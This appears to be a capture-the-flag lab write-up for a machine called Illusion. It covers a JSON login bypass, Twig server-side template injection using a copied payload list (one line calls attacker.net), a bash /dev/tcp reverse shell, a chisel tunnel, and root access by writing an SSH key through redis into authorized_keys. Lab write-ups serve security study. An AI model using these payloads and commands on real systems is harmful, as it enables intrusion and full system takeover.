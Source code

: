 #  Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg]                                               
└─$ sudo nmap -vvv --max-retries 1 -Pn -r -n 192.168.151.203
PORT   STATE SERVICE REASON    
22/tcp open  ssh     syn-ack ttl 61                  
80/tcp open  http    syn-ack ttl 61
```

# Web enumeration

Just shows a main page with 3 buttons.

<img src="../Images/image-20230822171436075.png" alt="image-20230822171436075" style="zoom:80%;" />



Login will post json values to server.

<img src="../Images/image-20230822171559474.png" alt="image-20230822171559474" style="zoom:80%;" />

Try to change the password to true.

Will navigate to `dashboard.php`.

<img src="../Images/image-20230822172000233.png" alt="image-20230822172000233" style="zoom:80%;" />

Scanning with `dirsearch` will find the `/vendor` path.

<img src="../Images/image-20230822171947099.png" alt="image-20230822171947099" style="zoom:80%;" />

In `/vendor/composer/installed.json` will find the version of this web app is `tiwg v1.19.0.0`

<img src="../Images/image-20230822172109567.png" alt="image-20230822172109567" style="zoom:80%;" />

Search on google will navigate to [Twig < 2.4.4 - Server Side Template Injection](https://www.exploit-db.com/exploits/44102).

<img src="../Images/image-20230822172143962.png" alt="image-20230822172143962" style="zoom:80%;" />

Check the details, which means this version include `SSTI vulnerability`.

<img src="../Images/image-20230822172250494.png" alt="image-20230822172250494" style="zoom:80%;" />

Back to `/dashboard`, try to submit a order.

<img src="../Images/image-20230822172401005.png" alt="image-20230822172401005" style="zoom:80%;" />

Then will shows the `You Order 'aaron' has been sent`, so try to exploit with name.

<img src="../Images/image-20230822172444907.png" alt="image-20230822172444907" style="zoom:80%;" />

Then return the `16`.

<img src="../Images/image-20230822172500761.png" alt="image-20230822172500761" style="zoom:80%;" />

Check the payload with [Payload All the things](https://github.com/swisskyrepo/PayloadsAllTheThings)

```json
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
```

Try running the id.

<img src="../Images/image-20230822172651648.png" alt="image-20230822172651648" style="zoom:80%;" />

That will execution.

<img src="../Images/image-20230822172714546.png" alt="image-20230822172714546" style="zoom:80%;" />

Now edit the shell content.

```bash
/bin/sh -i >& /dev/tcp/192.168.45.187/22 0>&1
```

<img src="../Images/image-20230822173130393.png" alt="image-20230822173130393" style="zoom:80%;" />

Need to running with `bash -c`.

<img src="../Images/image-20230822173228248.png" alt="image-20230822173228248" style="zoom:80%;" />

Then get shell.

<img src="../Images/image-20230822173242450.png" alt="image-20230822173242450" style="zoom:80%;" />

# PE

## Basic Information

<img src="../Images/image-20230822173409363.png" alt="image-20230822173409363" style="zoom:80%;" />

## Active Ports

<img src="../Images/image-20230822173431853.png" alt="image-20230822173431853" style="zoom:80%;" />

## Users

<img src="../Images/image-20230822173443058.png" alt="image-20230822173443058" style="zoom:80%;" />

## Useful software

<img src="../Images/image-20230822173457458.png" alt="image-20230822173457458" style="zoom:80%;" />

## Intesting files

<img src="../Images/image-20230822173534092.png" alt="image-20230822173534092" style="zoom:80%;" />

## Try to PE with Kernal Vulnerability

### CVE-2021-4034

<img src="../Images/image-20230822173635284.png" alt="image-20230822173635284" style="zoom:80%;" />

It's failed.

## Check interesting files

There is a password for redis.

<img src="../Images/image-20230822173712372.png" alt="image-20230822173712372" style="zoom:80%;" />

Use `chisel` to forward `redis` port for local kali.

```bash
$ ./chisel_kali client 192.168.45.187:8081 R:6379:127.0.0.1:6379

┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ./chisel_kali server --port 8081 --reverse   

```

Then login to redis locally, also generate ssh key for me.

<img src="../Images/image-20230822173928571.png" alt="image-20230822173928571" style="zoom:80%;" />

Edit a spaced_key for PE.

```bash
┌──(aaron㉿aacai)-[~/Desktop]
└─$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub;echo -e "\n\n") > spaced_key.txt

```

Then set ssh_key for root account.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Illusion]
└─$ cat spaced_key.txt| redis-cli -h 127.0.0.1 -a 'sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA' -x set ssh_key

```

<img src="../Images/image-20230822174033828.png" alt="image-20230822174033828" style="zoom:80%;" />

Login to redis set the dbfile.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Illusion]
└─$ redis-cli -h 127.0.0.1 -a "sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.

127.0.0.1:6379> config set dir /root/.ssh
OK
127.0.0.1:6379> config set dbfilename "authorized_keys"
OK
(1.93s)
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit

```

<img src="../Images/image-20230822174117864.png" alt="image-20230822174117864" style="zoom:80%;" />

Login to ssh with `id_rsa`. Finally get root.

<img src="../Images/image-20230822174139792.png" alt="image-20230822174139792" style="zoom:80%;" />